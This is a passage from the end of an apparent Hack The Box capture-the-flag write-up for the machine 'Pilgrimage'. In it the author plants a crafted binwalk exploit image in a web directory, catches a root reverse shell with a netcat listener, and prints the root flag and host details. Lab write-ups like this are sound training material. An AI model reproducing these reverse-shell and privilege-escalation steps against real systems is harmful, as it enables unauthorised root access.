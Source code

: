 Now lets copy this binwalk_exploit.png into the images location that is `/var/www/pilgrimage.htb/shrunk/` ⤵️

```bash
emily@pilgrimage:/tmp$ cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
emily@pilgrimage:/tmp$
```
{: .nolineno}
{: .nolineno}

Now in attackers machine lets start the Listener on port 4444 ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.219] 51598
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@pilgrimage:~/quarantine# whoami
whoami
root
root@pilgrimage:~/quarantine# id
id
uid=0(root) gid=0(root) groups=0(root)
root@pilgrimage:~/quarantine# cd /root
cd /root
root@pilgrimage:~# ls -al
ls -al
total 40
drwx------  5 root root 4096 Jun  8 00:10 .
drwxr-xr-x 18 root root 4096 Jun  8 00:10 ..
lrwxrwxrwx  1 root root    9 Feb 10  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 11  2021 .bashrc
drwxr-xr-x  3 root root 4096 Jun  8 00:10 .config
-rw-r--r--  1 root root   93 Jun  7 20:11 .gitconfig
drwxr-xr-x  3 root root 4096 Jun  8 00:10 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  4 root root 4096 Sep  8 20:46 quarantine
-rwxr-xr-x  1 root root  352 Jun  1 19:13 reset.sh
-rw-r-----  1 root root   33 Sep  8 14:07 root.txt
root@pilgrimage:~# cat root.txt
cat root.txt
3abcaf52ed8d30173b8dc3c6fcb3461c
root@pilgrimage:~# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:1a:54 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.219/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
root@pilgrimage:~#
```
{: .nolineno}
{: .nolineno}

I got the root !!



> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }